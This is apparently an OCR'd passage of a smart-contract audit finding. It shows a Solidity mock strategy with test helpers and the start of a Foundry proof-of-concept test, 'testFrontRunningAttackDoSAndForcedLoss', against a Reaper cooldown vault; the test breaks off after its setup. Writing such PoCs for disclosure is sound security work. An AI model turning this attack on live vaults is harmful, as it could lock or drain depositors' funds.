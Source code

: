 ```solidity
    }
    
    // Test helper functions
    function setAvailableLiquidity(uint256 _amount) external {
        availableLiquidity = _amount;
    }
    
    function setWithdrawLossPercent(uint256 _lossPercent) external {
        require(_lossPercent <= 10000, "Loss percent cannot exceed 100%");
        withdrawLossPercent = _lossPercent;
    }

    function setVaultAddress(address vaultAddress_) external {
        vaultAddress = vaultAddress_;
    }

    function vault() external view returns (address) {
        return vaultAddress;
    }

    function setWantAddress(address wantAddress_) external {
        wantAddress = wantAddress_;
    }

    function want() external view returns (address) {
        return wantAddress;
    }

    function approveVaultSpender() external returns (bool) {
        return IERC20(wantAddress).approve(vaultAddress, type(uint256).max);
    }
}
```

After, create another file and add this test to it to test the vul.

```solidity
// SPDX-License-Identifier: BUSL-1.1

pragma solidity ^0.8.0;

import {VaultBaseTest} from "./VaultBase.t.sol";
import {ReaperERC721WithdrawCooldown} from "../../../src/ReaperERC721WithdrawCooldown.sol";
import {StrategyMock} from "./mock/StrategyMock.sol";
import {console} from "forge-std/console.sol";
import {Vm} from "forge-std/Vm.sol";
import {IERC721Receiver} from "oz/token/ERC721/IERC721Receiver.sol";
import {IERC20} from "oz/token/ERC20/IERC20.sol";
import {ReaperVaultV2Cooldown} from "../../../src/ReaperVaultV2Cooldown.sol";



contract VaultCooldownTest is VaultBaseTest {
       function testFrontRunningAttackDoSAndForcedLoss() public {
        address attacker = makeAddr("attacker");
        address victim1 = makeAddr("victim1");
        
        // Setup users with deposits
        deal(address(assetMock), attacker, 1000e18);
        deal(address(assetMock), victim1, 500e18);

        // All users deposit
        vm.startPrank(attacker);
        assetMock.approve(address(sut), 1000e18);
```